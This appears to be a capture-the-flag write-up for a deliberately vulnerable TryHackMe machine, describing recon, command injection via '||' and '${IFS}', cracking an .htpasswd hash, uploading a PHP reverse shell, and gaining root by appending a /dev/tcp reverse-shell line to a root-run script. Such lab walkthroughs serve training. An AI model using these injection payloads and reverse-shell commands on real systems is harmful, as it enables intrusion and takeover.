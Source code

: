 # ConvertMyVideo

![machine=01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/machine-01.png)


### Recon

Lets kick off our enumeration stage with `nmap`:

![nmap-result-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/nmap-02.png)

Here are the results:	

Lets go take a look at this Apache server.


## Apache 

Lets navigate to the site:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/site-03.png)

Lets open Burp, and capture a request for some factitious youtube video ID.
We get following error message from the server:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-04.png)

Trying to send a legitamte youtube video ID stalls the server for a copule of minutes then 
returns nothing. So while waiting i decided to try directory busting. 


### Directory Busting

I used `ffuf`:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.
3-medium.txt:FUZZ -u http://10.10.79.56/FUZZ`

With it came some itersting results: 

![ffuf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/ffuf-res-05.png)


Visiting this URL prompts us for credetials: 

![pass-prompt-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-prompt-06.png)

It looks like a basic authintication scheme.

![burp-pass-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-pass-07.png)

Yes is it is.  HTTP Basic authentication is the simplest technique for 
enforcing access controls to web resources because it doesnâ€™t require cookies, session 
identifiers, or login pages; rather, HTTP Basic authentication uses standard fields in the 
HTTP header, obviating the need for handshakes.

This matters because, it means the web server is using `.htaccess` and `.htpasswd` files 
to authinticate users. `.htpasswd` is of special interest to us since it hold user credetials.  
If we can find this file on the server we have our entry point. 


### Command Injection

Lets start playing around with the HTTP headers to try and provoke server errors.
What if instead of going to youtube, we point the server to its self? 

![server-err-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/server-err-08.png)


Okay, the backend is using `youtube-dl`. It seems like whatever we pass to the `yt_url` 
parameter in our `POST` request, is passed to `youtube-dl` . 
  
`youtube-dl` is an open source project, you can find [here](https://github.com/ytdl-org/youtube-dl) 

Based on its github, the syntax is as follows: 
`youtube-dl [OPTIONS] URL`

In essense, whatever we supply to the `yt_url` parameter becomes the <URL> part above.
Lets try to break out of the `youtube-dl` command. 

To do that, im thinking of a few things, we can either try to send a cariage return sequance 
(works sometimes, not in this case). 

We can try Openining a subshell with backticks \`\` or $() to give priority to whatever is inside. 
(doesnt work in this case either). 

Or, We could also try to use `||` to execute two commands one after the other. 
This works:

![burp-ls-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-ls-09.png)

This is a command injection vulnerability, but we have one major issue, we cant uses spaces.
sending something like `||cat /etc/passwd` will break the execution. 

We have to use an espace sequance. After some experimentations ive found that `${IFS}` works:

![burp-esc-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-esc-10.png)

Now we can find the `.htpasswd` file with a simple search: `||find${IPS}-name${IFS}.htpasswd`.
This shows that the file is at `admin/.htpasswd`, lets cat it out: 

![creds-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/creds-11.png)


### The Admin Panel

The stored credetials are: `itsmeadmin : $apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`, 
its an arp1 hash. Can we crack it with `hashcat`? 

`hashcat --help | grep -i arp1`

![hashcat-help-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/hashcat-help-12.png)


Lets crack it: 
`hashcat -m 1600 '$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/' /usr/share/wordlists/rockyou.txt`

![pass-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-13.png)

The credtials to the admin panel are `itsmeadmin : jessie`  Lets log in: 
	
![admin-panel-14](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-panel-14.png)

If we take a look at the source code for the page: 

![admin-source-15](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-source-15.png)

It looks for a "c" parameter in the URL, we can use our previous command injection to try
and find the `index.php` file that runs in the backend for this page:

![index-pos-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-pos-16.png)

Lets cat it out: 

![index-17](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-17.png)

The backend checks if any argument was given to the "c" parameter in the URL.
If so, it execute the `system()` function to run whatever was given to it on the OS. 
 
This is another command injection vulnerability: 

![pwned-18](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pwned-18.png)

Lets send a reverse shell.


### Gaining Access

I like using [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). 

Change the port and ip to your situation: 

![pentest-19](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pentest-19.png)

Start a python server `python3 -m http.server 8888`

And download the file to the target: 

![upload-20](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/upload-20.png)

Start the listener with `nc -lnvp 4242`

Navigate to the file location: 

![navigate-21](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/navigate-21.png)

It stalls, thats a great sign, lets check the listener: 

![shell-22](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/shell-22.png)

Lets move to privilege escalation!


## Privilege Escalation

After looking around a bit, ive found nothing meaningful to exploit. 
Lets fire off `pspy64`:

![priv-esc-23](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/priv-esc-23.png)

We have UID 0 running a script from out user's home directory, Lets check the permissions: 

![perms-24](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/perms-24.png)

We can write to the file, Lets append a reverse shell to it:
`echo '/bin/bash -l > /dev/tcp/10.18.22.182/4242 0<&1 2>&1' >> clean.sh`

A few seconds after setting up the listener we get a connection:

![root-25](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/root-25.png) 
